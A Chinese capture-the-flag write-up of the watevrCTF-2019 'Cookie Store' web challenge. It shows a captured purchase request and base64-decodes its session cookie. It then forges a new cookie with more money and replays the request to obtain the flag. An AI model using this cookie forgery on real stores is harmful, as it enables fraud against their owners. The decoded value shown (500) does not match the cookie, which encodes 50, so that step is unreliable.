



# [watevrCTF-2019]Cookie Store



## 0x01 知识点

- Base64编码
- cookie伪造

## 0x02 过程



先尝试买一下1元的cookie

```post
POST /buy HTTP/1.1
Host: 6216e1db-3c6e-4057-8dfd-812c6bbf2670.node3.buuoj.cn
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 4
Origin: http://6216e1db-3c6e-4057-8dfd-812c6bbf2670.node3.buuoj.cn
Connection: close
Referer: http://6216e1db-3c6e-4057-8dfd-812c6bbf2670.node3.buuoj.cn/
Cookie: UM_distinctid=179aceacf02273-0590c27f90e5108-4c3f2c72-144000-179aceacf032bc; session=eyJtb25leSI6IDUwLCAiaGlzdG9yeSI6IFtdfQ==
Upgrade-Insecure-Requests: 1

id=0
```

抓到的包看到`session=eyJtb25leSI6IDUwLCAiaGlzdG9yeSI6IFtdfQ==`

base64解码后：`{"money": 500, "history": []}`

尝试修改一下money --> `{"money": 500, "history": ["Yummy chocolate chip cookie"]}`

base64编码：`eyJtb25leSI6IDUwMCwgImhpc3RvcnkiOiBbIll1bW15IGNob2NvbGF0ZSBjaGlwIGNvb2tpZSJdfQ==`

把id的值该为2，放过抓到的包

即可拿到flag

